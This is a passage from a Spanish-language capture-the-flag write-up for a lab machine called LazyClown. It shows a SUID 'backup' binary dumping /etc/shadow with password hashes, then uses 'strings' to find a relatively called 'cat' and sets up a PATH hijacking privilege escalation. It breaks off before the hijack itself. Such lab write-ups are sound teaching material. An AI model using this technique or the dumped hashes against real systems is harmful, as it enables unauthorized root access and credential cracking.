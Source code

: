 ```bash
-rw-r--r-- 1 mitsos mitsos  675 May  2  2017 .profile
drwxrwxr-x 2 mitsos mitsos 4096 Dec  7 16:27 .ssh/
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup*
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7 16:27 peda/
-r--r--r-- 1 mitsos mitsos   33 Feb  6 04:31 user.txt
mitsos@LazyClown:~$
```

Tenemos el archivo `backup` con permisos SUID; por lo tanto, podemos ejecutarlo temporalmente como el usuario propietario, en este caso **root**. Vamos a ejecutarlo.

```bash
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
mitsos@LazyClown:~$ 
```

Este formato se nos debe hacer conocido, se tratar del archivo `/etc/shadow`; por lo que si utilizamos el comando `strings` y filtramos por `shadow`; deberíamos ver que se aplica un `cat` a dicho archivo.

```bash
mitsos@LazyClown:~$ strings backup | grep shadow
cat /etc/shadow
mitsos@LazyClown:~$
```

Hemos encontrado una forma de escalar privilegios ya que el binario `cat` está declarado de forma relativa, no de forma absoluta como `/bin/cat`; por lo tanto podríamos hacer un ***Path Hijacking*** generando un archivo llamado `cat` dentro del directorio actual de trabajo y modificaremos la variable de entorno `PATH` para incluir dicho directorio.
